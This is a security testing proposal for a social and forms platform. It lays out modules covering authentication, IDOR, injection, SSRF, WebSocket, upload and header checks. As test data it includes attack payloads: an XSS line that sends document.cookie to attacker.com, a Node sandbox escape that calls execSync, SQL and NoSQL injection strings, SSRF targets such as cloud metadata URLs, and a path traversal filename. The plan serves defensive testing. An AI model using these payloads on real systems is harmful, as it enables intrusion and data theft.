


# Security Testing Proposal & Comprehensive Test Plan
**Target Application:** Eve Vakh Platform (`https://eve.vakh.com` & `https://xo.eve.vakh.com`)  
**Document Version:** 1.0  
**Prepared by:** QA & Security Engineering  
**Scope:** Web Application (SPA), REST API Gateway, Real-Time WebSockets, and Authentication Services

---

## 1. Executive Summary & Objectives

The purpose of this Security Testing Proposal Plan is to define a systematic, rigorous, and automated security assessment framework for the **Eve Vakh** platform. As an interactive social, collaboration, and form-driven platform handling user profiles, direct/group communication, dynamic form schemas, external REST API field integrations, and media attachments, Eve Vakh requires robust security boundaries.

### Core Objectives
1. **Identify Critical Vulnerabilities**: Detect authorization bypasses (BOLA/IDOR), injection flaws (XSS, Prototype Pollution), Server-Side Request Forgery (SSRF), and authentication weaknesses before malicious exploitation.
2. **Validate Defense-in-Depth**: Ensure server-side validation (Zod schemas, gateway guards) consistently enforces access controls even if client-side validation is bypassed.
3. **Automate Continuous Security Regression**: Leverage the existing Playwright and Node.js testing infrastructure to automate security test suites alongside functional workflows.
4. **Ensure Regulatory & Privacy Compliance**: Guarantee that Personally Identifiable Information (PII) and precise user geolocation data are protected from unauthorized enumeration or leakage.

---

## 2. Target Architecture & Attack Surface



### Key Attack Surfaces
| Attack Surface | Components | Key Technologies / Interfaces |
| :--- | :--- | :--- |
| **Authentication & Session** | Sign-In, OTP generation, MFA challenge, Account recovery, Session cookies | HTTP Cookies (`vakh_session`), Token headers, Passwords, SMS/Email OTP |
| **Dynamic Forms & REST Fields** | Form creation, Custom fields (REST API, Formula, Poll, Place), Proxy execution | Server-side HTTP client, Sandbox execution, Zod validation schemas |
| **User Feeds & Content Composer** | Post publishing, Rich-text, Media uploads, Reactions, Comments, Archiving | Markdown renderers, File upload parsers, Storage endpoints |
| **Explore & Geolocation Engine** | Nearby filter, Geolocation coordinates (`lat`/`lng`), Distance calculation | Geohash/PostGIS queries, Query parameters, Location boost algorithm |
| **Real-Time Collaboration** | Direct messages, Group chat, Member administration, Attachments | WebSocket (`wss://`), Event handlers, Presence tracking |

---

## 3. Threat Modeling & Risk Taxonomy (OWASP Top 10 Alignment)

The security assessment is mapped against both the **OWASP Web Top 10 (2021)** and **OWASP API Security Top 10 (2023)**:



---

## 4. Comprehensive Security Testing Modules

### Module 1: Authentication, Session Management & Credential Security
* **Target Endpoints**: `/api/auth/sign-in`, `/api/auth/send-otp`, `/api/auth/verify-otp`, `/api/auth/mfa-challenge`, `/api/auth/sign-out`, `/api/auth/recovery`
* **Test Scenarios**:
  1. **OTP Rate Limiting & Entropy**:
     - Brute-force OTP verification with 100+ automated guesses to confirm strict rate limiting (HTTP 429) and lockout.
     - Verify OTP expiration (maximum 5-10 minute validity window) and one-time use invalidation.
  2. **Session Cookie Security Attributes**:
     - Verify `vakh_session` cookie contains `HttpOnly`, `Secure`, and `SameSite=Lax` or `Strict` flags.
     - Validate that session tokens exhibit high cryptographic entropy (>128 bits).
  3. **Session Invalidation on Logout & Password Change**:
     - Verify that issuing `POST /api/auth/sign-out` immediately invalidates the server-side session in Redis/database.
     - Ensure previous session tokens cannot be replayed after logout or password reset.
  4. **Concurrent Session Control**:
     - Evaluate behavior during multiple concurrent logins across devices; test session termination and revocation.

---

### Module 2: Broken Object Level Authorization (BOLA/IDOR)
* **Target Endpoints**: `/api/forms/:id`, `/api/posts/:id`, `/api/conversations/:id`, `/api/badges/:id`, `/api/profiles/:id`
* **Test Scenarios**:
  1. **Cross-Tenant Form Modification/Deletion**:
     - User A authenticates and attempts to issue `PUT /api/forms/<User_B_Form_ID>` or `DELETE /api/forms/<User_B_Form_ID>`.
     - Expectation: Strict `403 Forbidden` or `404 Not Found`; zero state alteration.
  2. **Cross-Account Post Editing & Deletion**:
     - User A attempts `PUT /api/posts/<User_B_Post_ID>` and `DELETE /api/posts/<User_B_Post_ID>`.
     - Expectation: Rejection with `403 Forbidden`.
  3. **Unauthorized Chat Conversation Access**:
     - User C (non-participant) attempts `GET /api/conversations/<Private_Group_ID>/messages`.
     - Expectation: Total access denial (`403 Forbidden`).
  4. **Privilege Escalation via Group Chat Roles**:
     - Regular group member attempts to send administrative commands (e.g. promoting self or kicking owner).
     - Expectation: Strict server-side role validation.

---

### Module 3: Injection Flaws & Input Validation Robustness
* **Target Endpoints**: Form creation, post publishing, markdown preview, formula calculation, search inputs
* **Test Scenarios**:
  1. **Stored Cross-Site Scripting (XSS)**:
     - Inject polyglot and modern XSS payloads into Post body, Form title/description, and User bio:
       ```html
       
       <svg/onload=fetch('https://attacker.com/steal?c='+document.cookie)>
       [Click Me](javascript:alert(1))
       ```
     - Validate that all client-side React rendering sanitizes inputs and that headers prevent script execution.
  2. **Prototype Pollution via JSON Payloads**:
     - Transmit `__proto__`, `constructor.prototype` keys within nested field metadata to verify that object inheritance remains unpolluted:
       ```json
       {"__proto__": {"isAdmin": true}, "constructor": {"prototype": {"role": "admin"}}}
       ```
     - Expectation: Uniform HTTP 400 rejection via Zod parser; zero 500 runtime unhandled exceptions.
  3. **Formula Sandbox Escapes**:
     - For forms utilizing formula calculation fields, test arbitrary code execution attempts:
       ```javascript
       Function("return process")().mainModule.require('child_process').execSync('id')
       this.constructor.constructor("return process.env")()
       ```
     - Expectation: Execution isolated inside secure, restricted AST/sandboxed evaluator with no prototype or environment access.
  4. **SQL/NoSQL/ORM Injection**:
     - Fuzz all query parameters and filter bodies with SQL injection strings (`' OR 1=1 --`, `UNION SELECT`) and NoSQL operators (`{"$ne": null}`, `{"$gt": ""}`).

---

### Module 4: Server-Side Request Forgery (SSRF) Defense
* **Target Endpoints**: Custom Form REST API Field Executor (`/api/forms/:id/fields/:fieldId/execute`), Webhooks, Link preview generators
* **Test Scenarios**:
  1. **Cloud Metadata Exploitation**:
     - AWS / GCP / DigitalOcean metadata endpoints:
       - `http://169.254.169.254/latest/meta-data/`
       - `http://metadata.google.internal/computeMetadata/v1/`
       - `http://100.100.100.200/latest/meta-data/`
  2. **Internal Network / RFC 1918 Scanning**:
     - Private subnets: `http://127.0.0.1:8080`, `http://localhost:5432`, `http://10.0.0.1`, `http://172.16.0.1`, `http://192.168.1.1`
  3. **IPv6 and Advanced Encodings**:
     - IPv6 loopback (`http://[::1]`), link-local (`http://[fe80::1]`), IPv4-mapped IPv6 (`http://[::ffff:127.0.0.1]`), and decimal/hex IP representations (`http://2130706433/`).
  4. **DNS Rebinding & Redirection Attacks**:
     - Target domain that initially resolves to an external IP, but resolves to `127.0.0.1` upon subsequent HTTP request.
     - HTTP 302 redirects from an external permitted domain pointing to an internal loopback address.
     - Expectation: Strict destination validation against private IP ranges post-DNS resolution; rejection with HTTP 400/403.

---

### Module 5: API Rate Limiting & Denial of Service (DoS) Defense
* **Target Endpoints**: Auth gateway, Explore nearby sort, Heavy search filters, Large payload submission
* **Test Scenarios**:
  1. **Authentication Brute-Force Rate Limiting**:
     - Execute 100 requests within 10 seconds against `/api/auth/sign-in`.
     - Validate threshold triggering: HTTP 429 Too Many Requests with `Retry-After` header.
  2. **Complex Query Resource Exhaustion**:
     - Submit complex nested queries with extreme radius parameters (`radius=999999999`) or massive tag combinations to test database CPU consumption.
  3. **Oversized Request Body Mitigation**:
     - Transmit oversized JSON payloads (>10MB) and multi-part buffers.
     - Expectation: Early rejection with HTTP 413 Payload Too Large before server-side parsing.

---

### Module 6: Real-Time WebSocket & Chat Protocol Security
* **Target Endpoints**: `wss://xo.eve.vakh.com/socket.io/` or native WebSocket channels
* **Test Scenarios**:
  1. **WebSocket Handshake Authentication**:
     - Attempt WebSocket connection establishment without valid session cookies or auth tokens.
     - Expectation: Handshake rejection with HTTP 401 Unauthorized.
  2. **Cross-Site WebSocket Hijacking (CSWSH)**:
     - Connect to WebSocket server with an unauthorized `Origin: https://malicious-site.com` header while presenting legitimate user cookies.
     - Expectation: Immediate connection termination due to untrusted origin.
  3. **Message Injection & Channel Spoofing**:
     - Craft WebSocket frames attempting to publish messages to a channel/room ID where the authenticated user is not an admitted participant.

---

### Module 7: Media & Attachment Upload Security
* **Target Endpoints**: Post composer media attachments, profile avatar uploads
* **Test Scenarios**:
  1. **File Type Verification & Polyglot Detection**:
     - Upload executable files (.exe, .sh, .php) masked with image extensions (e.g. `exploit.php.jpg` or JPEG magic bytes prepended to PHP script).
     - Upload SVG files containing embedded `<script>` or event handlers (`onload=alert(1)`).
     - Expectation: Strict content-type sniffing, sanitization, and stripping of active scripts.
  2. **Path Traversal via Filenames**:
     - Upload file with filename: `../../../../etc/passwd` or `..\\..\\windows\\system32\\cmd.exe`.
     - Expectation: Server ignores client filename and stores content using randomly generated UUIDs.
  3. **Pixel Flood / Decompression Bombs**:
     - Upload high-resolution images with small compressed sizes designed to expand to gigabytes in memory upon decoding.
     - Expectation: Safe dimension checks before in-memory processing.

---

### Module 8: Security Headers, CORS, CSRF & Information Disclosure
* **Target Endpoints**: All public and authenticated routes across `eve.vakh.com` and `xo.eve.vakh.com`
* **Test Scenarios**:
  1. **Security Headers Baseline**:
     - Assert presence of essential security headers:
       - `Strict-Transport-Security: max-age=31536000; includeSubDomains`
       - `X-Content-Type-Options: nosniff`
       - `X-Frame-Options: DENY` or `SAMEORIGIN`
       - `Content-Security-Policy` (CSP)
       - `Referrer-Policy: strict-origin-when-cross-origin`
  2. **CORS Policy Validation**:
     - Test responses to `OPTIONS` preflight and `GET` requests with `Origin: https://attacker.com`.
     - Verify `Access-Control-Allow-Origin` NEVER returns wildcard `*` alongside `Access-Control-Allow-Credentials: true`.
  3. **CSRF Mitigation on State-Changing Endpoints**:
     - Send `POST`/`PUT`/`DELETE` requests from untrusted origins to verify CSRF defenses (anti-CSRF tokens or `SameSite` cookies + Origin header verification).
  4. **PII & Precise Location Privacy**:
     - Verify Explore location API responses do NOT expose exact GPS coordinates of other users (only fuzzy distance / public location names).

---

## 5. Security Testing Methodology & Tooling

```mermaid
flowchart LR
    A[Reconnaissance & Surface Mapping] --> B[Automated Playwright Security Suites]
    B --> C[DAST & Proxy Fuzzing\n(OWASP ZAP / Burp)]
    C --> D[Targeted Manual Penetration]
    D --> E[Triage, Reporting & Fix Verification]
```

### Tooling Stack
* **Automated Regression Engine**: Playwright test framework (`src/tests/api/security/`) with custom TypeScript assertions.
* **API Security & Load Testing**: Node.js `autocannon`, native fetch client, custom mutation fuzzers.
* **Dynamic Application Security Testing (DAST)**: OWASP ZAP (Zed Attack Proxy) and Burp Suite Professional for active crawling and vulnerability scanning.
* **Static Analysis (SAST)**: ESLint security plugins (`eslint-plugin-security`), npm audit for dependency vulnerability scanning.

---

## 6. Phased Implementation Roadmap

| Phase | Duration | Core Deliverables | Target Modules |
| :---: | :---: | :--- | :--- |
| **Phase 1: Foundation & Baseline** | Week 1 | • Run passive DAST crawl & security header audit<br>• Dependency vulnerability audit (`npm audit`)<br>• Baseline CSRF and CORS suite validation | Modules 1 & 8 |
| **Phase 2: Authorization & SSRF** | Week 2 | • Comprehensive BOLA/IDOR sweep across all forms/posts/chats<br>• SSRF fuzzing on form REST API fields<br>• Privilege escalation matrix | Modules 2 & 4 |
| **Phase 3: Input Validation & Injection** | Week 3 | • Stored XSS testing across rich post composer & forms<br>• Prototype pollution & Zod fuzzing<br>• Formula field sandboxing verification | Module 3 |
| **Phase 4: Real-Time, Media & DoS** | Week 4 | • WebSocket protocol & message injection audit<br>• Media upload bypass & SVG sanitization verification<br>• Rate limiting & load testing thresholds | Modules 5, 6 & 7 |
| **Phase 5: Reporting & CI Integration** | Week 5 | • Executive & technical vulnerability reports<br>• Remediation verification<br>• Integration into CI/CD automated pipeline | All Modules |

---

## 7. Rules of Engagement & Safe Testing Protocols

> [!IMPORTANT]
> Because testing is conducted against the live target (`https://eve.vakh.com`), strict rules of engagement must be adhered to in order to ensure zero service disruption and zero impact on other real users.

1. **Designated Test Accounts Only**:
   - All authenticated testing must exclusively utilize authorized test accounts (e.g. `mughdabansal2094@gmail.com` / `@m_2094`) or designated test peers.
   - Do NOT alter, tamper with, or delete data belonging to external user profiles.
2. **Rate Limit Throttling**:
   - Automated fuzzing and brute-force testing must incorporate request pacing (delays of 300ms–500ms between calls) to prevent accidental gateway denial-of-service.
3. **Safe SSRF Payloads**:
   - SSRF testing must verify that the proxy *rejects* the request (asserting HTTP 400/403) rather than executing malicious exploits against internal infrastructure.
4. **Mocking Cascade Deletions**:
   - For destructive cascade validation, use Playwright request interception or mock endpoints to avoid irreversible data loss.

---

## 8. Deliverables & Next Steps

Upon completion of each phase, the security testing program will deliver:
1. **Interactive Security Dashboard**: Real-time pass/fail metrics integrated into the HTML dashboard (`docs/index.html`).
2. **Vulnerability Assessment Report**: Detailed technical report categorizing findings by severity (Critical, High, Medium, Low, Informational) with CVSS v3 scores and reproducible Proof-of-Concepts (PoCs).
3. **Remediation & Hardening Guidance**: Actionable code snippets and architectural recommendations for developers.
4. **Automated Security Regression Test Suite**: Fully automated Playwright specs committed under `src/tests/api/security/` for continuous integration testing.
